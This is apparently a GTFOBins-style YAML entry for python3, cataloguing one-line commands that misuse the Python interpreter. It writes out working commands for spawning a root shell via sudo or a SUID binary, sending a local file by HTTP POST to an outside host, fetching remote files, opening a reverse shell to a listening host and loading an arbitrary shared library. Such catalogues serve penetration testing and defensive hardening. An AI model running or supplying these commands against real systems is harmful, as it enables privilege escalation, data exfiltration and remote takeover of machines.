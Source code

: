 ```yaml
---
functions:
  exec-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service to collect the file on the other end.
      code: |
        export URL=http://10.0.0.1/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://10.0.0.1/file_to_get
        export LFILE=file_to_get
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  reverse-shell:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> to receive the shell on the other end.
      code: |
        export RHOST=127.0.0.1
        export RPORT=12345
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

